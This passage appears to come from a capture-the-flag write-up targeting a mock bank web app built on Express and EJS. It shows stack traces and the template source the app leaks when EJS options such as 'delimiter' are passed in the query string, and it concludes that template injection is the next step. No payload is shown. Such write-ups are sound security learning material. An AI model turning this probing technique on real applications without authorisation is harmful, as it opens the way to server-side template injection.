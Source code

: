 Let's play a bit with this new parameters now.
Adding any of the parameters that resulted in the error 500 code got me this:
```html
TypeError: /home/web/app/views/settings.ejs:4<br> &nbsp; &nbsp;2| &lt;html lang=&quot;en&quot;&gt;<br> &nbsp; &nbsp;3| &nbsp; &lt;head&gt;<br> &gt;&gt; 4| &nbsp; &nbsp; &lt;%- include(&quot;../components/head&quot;); %&gt;<br> &nbsp; &nbsp;5| &nbsp; &nbsp; &lt;title&gt;Cyprus National Bank&lt;/title&gt;<br> &nbsp; &nbsp;6| &nbsp; &lt;/head&gt;<br> &nbsp; &nbsp;7| &nbsp; &lt;body&gt;<br>
<br>include is not a function<br> 
&nbsp; &nbsp;at settings (&quot;/home/web/app/views/settings.ejs&quot;:53:17)<br> &nbsp; &nbsp;at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)<br> &nbsp; &nbsp;at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)<br> &nbsp; &nbsp;at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)<br> &nbsp; &nbsp;at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)<br> &nbsp; &nbsp;at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)<br> &nbsp; &nbsp;at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)<br> &nbsp; &nbsp;at /home/web/app/routes/settings.js:27:7<br> &nbsp; &nbsp;at processTicksAndRejections (node:internal/process/task_queues:96:5)
```

Looks like we are gonna have to do some template injection on the EJS.
When passing `&delimiter=test` i get a different output:
```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <%- include("../components/head"); %>
    <title>Cyprus National Bank</title>
  </head>
  <body>
    <%- include("../components/navbar", { logged: true, active: "settings" }); %>
    <div class="container">
      <h2 class="text-center mb-4 mt-5">Customer Settings</h2>
      <% if (typeof message != 'undefined' )  { %>
        <div class="alert alert-info mb-3"><%= message %></div>
      <% } %>
      <% if (password != -1) { %>
        <div class="alert alert-success mb-3">Password updated to '<%= password %>'</div>
      <% } %>
      <% if (typeof error != 'undefined') { %>
        <div class="alert alert-danger mb-3"><%= error %></div>
      <% } else { %>
        <form method="post" class="col d-flex flex-column align-items-center">
          <div class="form-floating mb-3 w-100" w-100>
            <input name="name" type="text" id="password" class="form-control" placeholder="Enter a customer name" required>
            <label for="username">Enter a customer name</label>
          </div>
          <div class="form-floating mb-3 w-100" w-100>
            <input name="password" type="password" id="password" class="form-control" placeholder="Enter a new password" required>
            <label for="password">Enter a new password</label>
          </div>
          <button class="btn btn-dark w-100 btn-lg">Save</button>
        </form>
      <% } %>
    </div>
  </body>
</html>

```
